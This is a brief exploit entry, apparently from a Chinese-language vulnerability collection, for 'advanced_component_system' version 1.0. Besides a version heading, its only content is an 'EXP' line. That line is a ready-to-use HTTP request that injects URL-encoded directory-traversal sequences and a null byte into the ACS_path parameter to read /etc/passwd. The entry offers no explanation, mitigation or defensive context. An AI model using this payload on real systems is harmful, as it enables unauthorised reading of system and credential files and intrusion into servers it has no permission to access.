 <languages />

影响版本
--------

v1.0

EXP
---

    http://localhost/advanced_component_system/index.php?ACS_path=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%00